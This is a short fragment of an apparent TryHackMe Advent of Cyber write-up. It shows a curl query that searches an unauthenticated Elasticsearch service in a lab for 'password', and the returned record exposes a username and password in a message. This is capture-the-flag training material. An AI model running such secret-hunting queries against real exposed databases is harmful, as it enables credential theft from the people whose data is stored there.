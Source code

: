  <img src="https://github.com/Faridbg/THM_Advent_of_Cyber/blob/main/resources/images/Task_29_%231.png"/>

  ~~~bash
  $ curl -X GET "10.10.6.152:9200/_search?q=password&pretty"
  {
  "took" : 8,
    "timed_out" : false,
    "_shards" : {
      "total" : 6,
      "successful" : 6,
      "skipped" : 0,
      "failed" : 0
    },
    "hits" : {
      "total" : 1,
      "max_score" : 2.0136302,
      "hits" : [
        {
          "_index" : "messages",
          "_type" : "_doc",
          "_id" : "73",
          "_score" : 2.0136302,
          "_source" : {
            "sender" : "mary",
            "receiver" : "wendy",
            "message" : "hey, can you access my dev account for me. My username is l33tperson and my password is 9Qs58Ol3AXkMWLxiEyUyyf"
          }
        }
      ]
    }
  }
  ~~~
